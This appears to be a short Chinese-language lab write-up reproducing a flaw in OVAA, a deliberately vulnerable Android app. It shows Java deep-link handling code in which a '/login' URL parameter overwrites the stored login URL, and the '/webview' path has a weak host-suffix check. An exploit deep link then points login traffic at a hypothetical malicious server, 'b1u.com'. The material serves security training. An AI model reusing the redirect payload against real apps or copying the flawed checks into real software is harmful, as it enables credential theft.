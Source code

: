 ```java
                loginUtils.logout();
                startActivity(new Intent(this, EntranceActivity.class));
            }
            else if("/login".equals(path)) {
                // 获取URL参数
                String url = uri.getQueryParameter("url");
                if(url != null) {
                    // 设置登录URL为获取到的URL
                    Log.d("B1u", "ChangeLoginURL: " + url);
                    loginUtils.setLoginUrl(url);
                }
                startActivity(new Intent(this, EntranceActivity.class));
            }
            else if("/grant_uri_permissions".equals(path)) {
                Intent i = new Intent("oversecured.ovaa.action.GRANT_PERMISSIONS");
                if(getPackageManager().resolveActivity(i, 0) != null) {
                    startActivityForResult(i, URI_GRANT_CODE);
                }
            }
            else if("/webview".equals(path)) {
                String url = uri.getQueryParameter("url");
                if(url != null) {
                    String host = Uri.parse(url).getHost();
                    if(host != null && host.endsWith("example.com")) {
                        Intent i = new Intent(this, WebViewActivity.class);
                        i.putExtra("url", url);
                        startActivity(i);
                    }
                }
            }
        }
    }
}


public class LoginUtils {
    public void setLoginUrl(String url) {
        editor.putString(LOGIN_URL_KEY, url).commit();
    }
}
```

### 利用

将LOGIN_URL更改为`b1u.com`（假设`b1u.com`是恶意服务器）

![](OVAA复现/image-20240607142614633.png)

浏览器访问`oversecured://ovaa/login?url=https://b1u.com`
